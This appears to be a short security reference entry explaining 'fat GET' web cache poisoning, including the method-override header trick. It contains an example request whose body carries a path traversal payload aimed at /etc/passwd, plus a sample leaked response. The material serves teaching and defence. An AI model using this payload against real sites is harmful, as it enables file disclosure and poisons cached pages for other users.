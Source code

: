 A "fat GET" request is a `GET` request that includes a request body. By sending this type of `GET` request, an attacker can force the caching system to cache a response that contains an attacker-controlled value. If the request body is unkeyed and included in the response, it can create an opportunity for cache poisoning.

If a legitimate user then makes a regular GET request that matches the same cache key, they would receive the poisoned response from the cache, resulting in various vulnerabilities.

In some cases, it may also be possible to use the `X-HTTP-Method-Override` header to trick the application into treating a fat `GET` request as a normal `POST` request.

Below is an example of a fat GET request:
```http
GET /download?filename=file.php HTTP/1.1
Host: target-website.com
...

filename=../../../../../etc/passwd
```
If a legitimate user then requests a regular GET request using the following:
```http
GET /download?filename=file.php HTTP/1.1
Host: target-website.com
...
```
They would then get the following response, since:
```http
HTTP/1.1 200 OK
...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```